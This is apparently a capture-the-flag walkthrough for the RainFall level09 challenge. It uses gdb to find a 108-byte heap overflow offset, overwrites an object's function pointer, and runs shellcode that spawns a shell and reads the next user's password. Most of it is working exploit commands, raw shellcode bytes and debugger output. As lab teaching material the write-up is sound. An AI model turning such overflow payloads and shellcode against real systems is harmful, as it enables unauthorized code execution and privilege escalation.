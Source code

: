 # level09

We can see that the program takes nothing even if a parameters is given. But with a large string, we can make it segfault:

```bash
level9@RainFall:~$ ./level9 
level9@RainFall:~$ ./level9 ds
level9@RainFall:~$ ./level9 dsasd
level9@RainFall:~$ ./level9 dsasd ds
level9@RainFall:~$ ./level9 $(python -c "print 'A' * 200")
Segmentation fault (core dumped)
```

Basically the program create two object, each containing a function pointer and a buffer, and copy the first parameter of the program in the buffer of the first object. At the end, it call a the function of the function pointer from the 2nd object.

We need first to calculate the length to overwrite the function address that will be called at the end:

```bash
(gdb) r AAAA
Starting program: /home/user/level9/level9 AAAA

Breakpoint 2, 0x0804867c in main ()
(gdb) x/wx $esp+0x14
0xbffff4c4:     0x0804a008
(gdb) x/wx $esp+0x18
0xbffff4c8:     0x0804a078
(gdb) p/d 0x0804a078 - 0x0804a008
$3 = 112
(gdb) x/30wx 0x0804a008
0x804a008:      0x08048848      0x41414141      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000
```

We can see that there is 112 bytes between the two objects, but our buffer begin after the four first bytes. We need 108 before overriding the 2nd object:

```bash
(gdb) r $(python -c "print 'A' * 108 + 'BBBB'")
Starting program: /home/user/level9/level9 $(python -c "print 'A' * 108 + 'BBBB'")

Breakpoint 2, 0x0804867c in main ()
(gdb) x/30wx 0x0804a008
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x42424242      0x00000000
```

If we put directly the beginning of our shellcode address (0x804a00c), the program will interpet the value as another address function instead of interpreting the bytes.

We will so puts the address of the shellcode four bytes after, and reference this address at the 108 bytes.

The address to put the shellcode address is : 0x804a078 + 4 = 0x0804a07c
The address to put the shellcode is : 0x804a008 + 4 = 0x804a00c

We try in gdb:

```bash
(gdb) r $(python -c "print '\x90' * (108-28) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x7c\xa0\x04\x08' + '\x0c\xa0\x04\x08'")

Starting program: /home/user/level9/level9 $(python -c "print '\x90' * (108-28) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x7c\xa0\x04\x08' + '\x0c\xa0\x04\x08'")

Breakpoint 2, 0x0804867c in main ()
(gdb) x/30wx 0x0804a008
0x804a008:      0x08048848      0x90909090      0x90909090      0x90909090
0x804a018:      0x90909090      0x90909090      0x90909090      0x90909090
0x804a028:      0x90909090      0x90909090      0x90909090      0x90909090
0x804a038:      0x90909090      0x90909090      0x90909090      0x90909090
0x804a048:      0x90909090      0x90909090      0x90909090      0x90909090
0x804a058:      0x90909090      0x6850c031      0x68732f2f      0x69622f68
0x804a068:      0x89e3896e      0xb0c289c1      0x3180cd0b      0x80cd40c0
0x804a078:      0x0804a07c      0x0804a00c
```

We try to exploit:

```bash
level9@RainFall:~$ ./level9 $(python -c "print '\x90' * (108-28) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x7c\xa0\x04\x08' + '\x0c\xa0\x04\x08'")
$ whoami
bonus0
$ cd /home/user/bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
